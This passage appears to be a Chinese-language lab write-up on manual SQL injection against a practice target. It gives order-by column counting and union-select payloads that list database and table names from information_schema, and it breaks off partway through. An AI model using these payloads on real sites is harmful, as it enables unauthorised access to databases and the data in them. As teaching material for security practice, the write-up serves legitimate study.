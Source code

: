 **2.输入1，回显**

注入类型是否为字符型注入，在输入id=1的时候发现输出结果为id=’1’，判断类型为字符

![image-20220609083749657](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083749657.png)

**3.猜解SQL查询语句中的字段数**

1’ order by 1#

![image-20220609085330939](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609085330939.png)

1’ order by 2#

![image-20220609085422484](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609085422484.png)

1’ order by 3#

![image-20220609085522977](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609085522977.png)

可以看到3没有回显，所以只有两个字段

**4.确定显示位置/字段顺序/回显位/SQL语句插入位置**

![image-20220609090109758](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090109758.png)

**5.获取数据库库名**

发现有两个字段可以执行，于是构造语句，查看当前数据库：

（1）获取当前数据库库名和版本

![image-20220609090256283](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090256283.png)

![image-20220609090329995](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090329995.png)

（2）获取所有数据库库名

-1' union select 1,group_concat(schema_name) from information_schema.schemata#

![image-20220609083313568](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083313568.png)

**6.获取数据库表名**

（1）方法一：一次获取一个表名

-1' union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 0,1)#

![image-20220609090732300](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090732300.png)

-1' union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 1,1)#

![image-20220609090927855](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609090927855.png)

2）方法二：一次性获取当前数据库所有表名
